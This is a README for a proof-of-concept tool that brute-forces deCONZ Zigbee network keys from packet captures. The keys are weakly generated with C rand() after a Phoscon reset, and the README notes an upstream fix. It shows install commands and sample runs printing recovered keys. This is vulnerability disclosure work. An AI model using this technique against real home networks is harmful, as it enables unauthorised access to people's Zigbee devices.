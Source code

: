 # deCONZ Zigbee network key leak proof-of-concept
This script derives the deCONZ Zigbee network key from a packet capture of any
coordinator that has been reset from the Phoscon web interface.

⚠️ **Raspbee and Conbee devices used out-of-the-box (i.e. never reset) are unaffected
because the factory-programmed network key is securely generated.** ⚠️

✅ **Fixed in https://github.com/dresden-elektronik/deconz-rest-plugin/pull/5833** ✅

## Background
The deCONZ REST plugin uses the [C `rand()` function](https://en.cppreference.com/w/c/numeric/random/rand) to generate both the Zigbee network PAN ID and the network key when an adapter is factory reset.  `rand()` is a simple [Linear congruential generator](https://en.wikipedia.org/wiki/Linear_congruential_generator) on every common platform, which is unsuitable for generating secret keys.

The first output of `rand()` is directly used as the Zigbee network PAN ID.  This leaks most of the random number generator's internal state and allows an attacker to quickly brute force the remaining 2<sup>16</sup> or 2<sup>17</sup> state bits to find the network key.

## Installation
```console
$ virtualenv -p 3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

## Usage
```console
$ python3 find_deconz_network_key.py captures/capture_linux.pcapng
Loading scapy
Reading packets from captures/capture_linux.pcapng
Found deCONZ network 0x3B5C
 13%|█████            ▏                        | 8.37k/65.5k [00:04<00:29, 1.95k keys/s]
Network key for 0x3B5C: 36:33:62:35:65:38:38:66:34:39:36:36:37:65:63:33

$ python3 find_deconz_network_key.py captures/capture_windows.pcapng
Loading scapy
Reading packets from captures/capture_windows.pcapng
Found deCONZ network 0x697F
100%|██████████████████████████████████████████| 65.5k/65.5k [00:57<00:00, 1.14k keys/s]
 41%|████████████████████                      | 54.0k/131k [00:30<00:43, 1.77k keys/s]
Network key for 0x697F: 33:30:65:30:34:31:32:62:35:33:62:31:32:64:64:64
```
